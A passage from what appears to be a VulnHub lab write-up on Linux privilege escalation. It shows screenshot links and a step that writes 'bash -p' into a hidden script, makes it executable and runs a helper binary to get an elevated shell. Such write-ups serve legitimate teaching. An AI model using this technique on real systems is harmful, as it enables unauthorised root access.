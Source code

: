 ![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_escalatelinux/screenshot08.png.webp)  

![writeup.privesc.steps.4.2](/static/files/posts_vulnhub_escalatelinux/screenshot08a.png.webp)  

5\. We find that the `/home/user3/shell` file requries a `.script.sh` file and needs it to have executable permissions. We create this file and test out the `shell` file which gives us an elevated shell:  
```
echo -en "bash -p" >>./.script.sh
chmod +x ./.script.sh
/home/user3/shell
```
